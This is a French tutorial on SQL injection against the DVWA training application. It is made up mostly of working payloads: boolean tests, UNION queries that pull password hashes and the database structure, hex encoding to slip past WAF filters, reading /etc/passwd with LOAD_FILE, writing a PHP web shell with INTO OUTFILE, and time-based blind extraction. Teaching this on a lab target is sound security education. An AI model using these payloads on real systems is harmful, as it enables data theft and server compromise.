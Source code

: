 # Injection SQL

Nous allons voir à travers les injections SQL différentes possibilité, cependant la faille SQL propose une infinité de solution. Il faudra comprendre et maitriser le SQL pour l'exploiter à son maximum.

Nous partons sur la base de la faille SQL proposée par DVWA :

`"SELECT username FROM users WHERE id = '$id';"`

Voici un moyen simple de tester la faille SQL.

`1' and '1'='1`

puis

`1' and '1'='2`

Si la première injection ressort des résultats mais pas la seconde c'est qu'il y a une faille SQL exploitable.

**Exemple de requêtes**

Déterminer la longueur du mot de passe

`1' and LENGTH(password) > 8 --` 
`1' and LENGTH(password) = 32 --` 

On comprend que c'est un MD5 (donc 32 caractères hexadécimaux)

Si le mot de passe avait été d'une longueur de 40 caractères on aurait pu en déduire que c'est du SHA1

L**e -- en SQL permet de mettre en commentaire le reste de la requête .**

**Rechercher caractère par caractère une donnée :**

Sans résultat

`1' and password LIKE '1%`

`1' and password LIKE '2%`

`1' and password LIKE '3%`

`1' and password LIKE '4%`

Avec résultat (donc le mot de passe commence par 5)

`1' and password LIKE '5%`

On peut récupérer le mot de passe directement ainsi :
`1' UNION SELECT "", password FROM users WHERE user_id='1`

**Obtenir des informations système** (il faut un espace après le double tiret "-- ")

`' UNION SELECT DATABASE(), @@version--` 

Retourne le nom de la bdd et le nom et le numéro de version de l'OS

**Obtenir la structure complète de la BDD**  (il faut un espace après le double tiret "-- ")

`' UNION SELECT CONCAT(TABLE_SCHEMA,'.',TABLE_NAME), COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=DATABASE() --` 

# Injection SQL avancées

**Injection SQL en hexadécimal**

Le SQL est capable d'interpréter le Hexadécimal

`' or '1'='1' --` 

peut être envoyé sous cette forme
`' or 0x2731273d273127 --` 

L'intérêt d'utiliser une injection SQL en Hexadécimal étant de contourner des filtres de WAF (Web Application Firewall).

**Lecture / écriture de fichier via SQL**

En SQL il est possible de charger des fichiers (si le serveur est configuré pour le faire)

Exemple :

`SELECT LOAD_FILE('/etc/passwd')`

Si les guillemets sont refusées il est possible d'utiliser l'hexa décimal pour le nom du fichier

`SELECT LOAD_FILE(0x2f6574632f706173737764)`

**Ecriture de fichier**

`SELECT '<?php system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/web_site/shell.php'`

Cette faille n'est que très rarement possible, une option (--secure-file-priv) est souvent activée empêchant l'écriture de fichier depuis le SQL.

# Blind SQL

`1' and (SELECT 1) --`
`1' and (SELECT 0) --`

Via l'affichage nous savons que l'injection SQL est possible

Voici comment il serait possible de trouver un mot de passe en blind SQL

`1' and (SELECT 1 FROM users WHERE LENGTH(password)=32 LIMIT 1) —`

`1' and (SELECT 1 FROM users WHERE password LIKE '5fa%' LIMIT 1) --`

A chaque test le résultat de la page nous informe sur la requête SQL est passée ou non.

Dans certain cas il peut n'y avoir aucune réponse ni changement sur l'interface il est tout de même possible de savoir que notre injection SQL :

`' and (SELECT SLEEP(5) FROM users WHERE password LIKE '5f%' LIMIT 1) —`

Ici dans cette exemple c'est le temps de réponse  qui nous informe que la requête SQL est passée ou non.

Si la méthode Sleep est désactivé ou détecté il est possible de le faire avec la méthode BENCHMARK

`1' and (SELECT BENCHMARK(10000000,md5('Exploit SQL')) FROM users WHERE password LIKE '5f%' LIMIT 1) —`

Dans cette exemple le MD5 de Exploit SQL va être effectué 10 000 000 de fois ce qui prends quelques secondes et nous permet de voir que la requête SQL est passée.

Documentation externe : [https://www.programmersought.com/article/4328569017/](https://www.programmersought.com/article/4328569017/)